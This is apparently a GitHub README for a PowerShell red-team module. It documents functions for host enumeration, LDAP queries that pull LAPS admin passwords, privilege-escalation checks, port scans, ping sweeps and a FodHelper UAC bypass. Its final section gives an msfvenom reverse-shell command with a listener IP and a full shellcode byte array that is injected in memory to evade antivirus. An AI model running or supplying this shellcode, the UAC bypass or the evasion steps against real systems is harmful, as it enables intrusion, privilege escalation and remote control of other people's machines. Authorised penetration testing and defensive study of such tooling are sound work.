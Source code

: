 # PowerShell-Red-Team-Enum
Collection of PowerShell functions a Red Teamer may use to collect data from a machine or gain access to a target. I added ps1 files for the commands that are included in the RedTeamEnum module. This will allow you to easily find and use only one command if that is all you want. If you want the entire module perform the following actions after downloading the RedTeamEnum directory and contents to your device.
```powershell
C:\PS> robocopy .\RedTeamEnum $env:USERPROFILE\Documents\WindowsPowerShell\Modules\RedTeamEnum *
# This will copy the module to a location that allows you to easily import it. If you are using OneDrive sync you may need to use $env:USERPROFILE\OneDrive\Documents\WindowsPowerShell\Modules\RedTeamEnum instead.

C:\PS> Import-Module -Name RedTeamEnum -Verbose
# This will import all the commands in the module. 

C:\PS> Get-Command -Module RedTeamEnum
# This will list all the commands in the module.
```

- Convert-Base64.psm1 is a function as the name states for encoding and/or decoding text into Base64 format.
```powershell
C:\PS> Convert-Base64 -Value "Convert me to base64!" -Encode

C:\PS> Convert-Base64 -Value "Q29udmVydCBtZSB0byBiYXNlNjQh" -Decode
```

- Get-LdapInfo.psm1 is a function I am very proud of for performing general LDAP queries. Although only two properties will show in the output, all of the properties associated with object can be seen by piping to Select-Object -Property *.
```powershell
 C:\PS> Get-LdapInfo -DomainControllers | Select-Object -Property 'Name','ms-Mcs-AdmPwd'
```

- Test-PrivEsc.ps1 is a function that can be used for finding whether WSUS updates over HTTP are vulnerable to PrivEsc, Clear Text credentials are stored in common places,  AlwaysInstallElevated is vulnerable to PrivEsc, Unquoted Service Paths exist, and enum of possible weak write permissions for services.
```powershell
 C:\PS> Test-PrivEsc
```

- Get-InitialEnum.ps1 is a function for enumerating the basics of a Windows Operating System to help better display possible weaknesses.
```powershell
 C:\PS> Get-InitialEnum
```

- Start-SimpleHTTPServer is a function used to host an HTTP server for downloading files. It is meant to be similart to pythons SimpleHTTPServer module. Directories are not traversable through the web server. The files that will be hosted for download will be from the current directory you are in when issuing this command.
```powershell
C:\PS> Start-SimpleHTTPServer
Open HTTP Server on port 8000

#OR
C:\PS> Start-SimpleHTTPServer -Port 80
# Open HTTP Server on port 80
```

- Invoke-PortScan.ps1 is a function for scanning all possible TCP ports on a target. I will improve in future by including UDP as well as the ability to define a port range.
```powershell
 C:\PS> Invoke-PortScan -IpAddress 192.168.0.1
```

- Invoke-PingSweep is a function used for performing a ping sweep of a subnet range. 
```powershell
Invoke-PingSweep -Subnet 192.168.1.0 -Start 192 -End 224 -Source Singular
# NOTE: The source parameter only works if IP Source Routing value is "Yes"

Invoke-PingSweep -Subnet 10.0.0.0 -Start 1 -End 20 -Count 2
# Default value for count is 1

Invoke-PingSweep -Subnet 172.16.0.0 -Start 64 -End 128 -Count 3 -Source Multiple
```

- Invoke-FodHelperBypass is a function that tests whether or not the UAC bypass will work before executing it to elevate priviledges. This of course needs to be run by a member of the local administrators group as this bypass elevates the priviledges of the shell you are in. You can define the program to run which will allow you to execute generaate msfvenom payloads as well as cmd or powershell or just issuing commands.
```powershell
Invoke-FodHelperBypass -Program "powershell" -Verbose
# OR 
Invoke-FodHelperBypass -Program "cmd /c msf.exe" -Verbose
```

Invoke-InMemoryPayload is used for AV Evasion using an In-Memory injection. This will require the runner to generate an msfvenom payload using a command similar to the example below, and entering the "[Byte[]] $buf" variable into Invoke-InMemoryPayloads "ShellCode" parameter.
```bash
# Generate payload to use
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=192.168.137.129 LPORT=1337 -f powershell
```
Start a listener, use that value in the "ShellCode" parameter, and run the command to gain your shell. This will also require certain memory protections to not be enabled. 
__NOTE:__ Take note there are __NOT ANY DOUBLE QUOTES__ around the ShellCode variables value. This is because it is expecting a byte array.
```powershell
Invoke-InMemoryPayload -Payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xc0,0xa8,0x89,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5 -Verbose
```
![Invoke-InMemoryPayload Image](https://raw.githubusercontent.com/tobor88/PowerShell-Red-Team/master/InvokeInMemPayloadImg.png)

